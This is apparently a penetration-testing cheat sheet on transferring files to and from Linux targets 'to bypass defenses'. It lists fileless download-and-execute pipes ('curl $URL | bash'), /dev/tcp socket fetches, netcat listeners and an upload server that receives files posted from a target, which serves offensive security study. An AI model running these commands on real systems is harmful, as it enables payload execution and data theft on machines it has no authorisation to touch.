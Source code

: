 # Linux - File Tranfer

Transferring files to or from Linux machines is crucial in various scenarios. Below are some methods for file transfer that could help to accomplish it and even bypass defenses:

## &#x20;<mark style="color:orange;">Download to the system</mark>

* &#x20;Using base64 encoding

{% code overflow="wrap" lineNumbers="true" %}
```bash
#On our machine
md5sum $file    #Check the hash of the file
cat $file |base64 -w0 #Convert content and print it in one line

#On the target machine
echo 'b64String' | base64 -d > $file
md5sum $file #Compare the hash to confirm the integrity of the file
```
{% endcode %}

***

* From the web to the target system

{% code overflow="wrap" lineNumbers="true" %}
```bash
wget https://$URL/$file -O /tmp/$outFile
curl -o /tmp/$outFile https://$URL/$file
```
{% endcode %}

***

* Download and execute it directly in memory (fileless)

{% code overflow="wrap" lineNumbers="true" %}
```bash
curl https://$URL/$file | bash
wget -qO- https://$URL/$pythonFile | python #Also can be done with Python
```
{% endcode %}

## <mark style="color:orange;">Download using the installed programming languages in the target</mark>

* Mount an HTTP server with any programming language and download content from it

{% code overflow="wrap" lineNumbers="true" %}
```bash
#On the target machine
python -m http.server $port
python2.7 -m SimpleHTTPServer $port
php -S 0.0.0.0:$port
ruby -run -ehttpd . -p$port

#On our machine
wget $TargetIP:$port/$file
```
{% endcode %}

## &#x20;<mark style="color:orange;">Download from a web server using the /dev/TCP device file</mark>

* Use the built-in device file to connect to the server and download a file via a petition

{% code overflow="wrap" lineNumbers="true" %}
```bash
exec 3<>/dev/tcp/$IP/$port
echo -e "GET /$pathToFile HTTP/1.1\n\n">&3
cat <&3 #Confirm checking the response
```
{% endcode %}

## <mark style="color:orange;">Download using SSH</mark>

* Start the SSH service to transfer files

{% code overflow="wrap" lineNumbers="true" %}
```bash
#On our machine
sudo systemctl enable ssh
sudo systemctl start ssh
netstat -lnpt #Check service port, by default 22

#On the target machine
scp $user@$IP:/$pathTofile ./
```
{% endcode %}

## <mark style="color:orange;">Upload to a web server</mark>

* &#x20;Use the _uploadserver_ module to mount an upload server using HTTPS

{% code overflow="wrap" lineNumbers="true" %}
```bash
#On our machine
pip3 install uploadserver
python3 -m uploadserver
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
sudo python3 -m uploadserver 443 --server-certificate ./server.pem

#On the target system
curl -X POST https://$file/upload -F 'files=@$pathTofile' -F 'files=@$pathToFile2' --insecure
```
{% endcode %}

## <mark style="color:orange;">Upload using SSH</mark>

* Use the SCP utility to upload files

{% code overflow="wrap" lineNumbers="true" %}
```bash
scp $file $targetUser@$targetIP:$pathToDestinationFolder
```
{% endcode %}

## <mark style="color:orange;">Transfer using Netcat and Ncat</mark>

* From our machine to the target, creating a listener on the target

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash">#On the target machine
<strong>nc -nvlp $port > $file   #Netcat
</strong>ncat -lp $port --recv-only > $file #Ncat

#On our machine
wget -q $fileURL #Download file
nc -q 0 $targetIP $port &#x3C; $file #Netcat
ncat --send-only $targetIP $port &#x3C; $file #Ncat
</code></pre>

***

* From our machine to the target, connecting to our listener

{% code overflow="wrap" lineNumbers="true" %}
```bash
#On our machine
sudo nc -nvlp 443 -q 0 < $file
sudo ncat -lp 443 --send-only < $file

#On the target machine
nc $ourIP 443 > $file
ncat $ourIP 443 --recv-only > $file
```
{% endcode %}

***

* Using the /dev/tcp folder to receive the file

{% code overflow="wrap" lineNumbers="true" %}
```bash
#On our machine
sudo nc -nvlp 443 -q 0 < $file
sudo ncat -lp 443 --send-only < $file

#On the target machine
cat < /dev/tcp/$ourIP/443 > $file
```
{% endcode %}
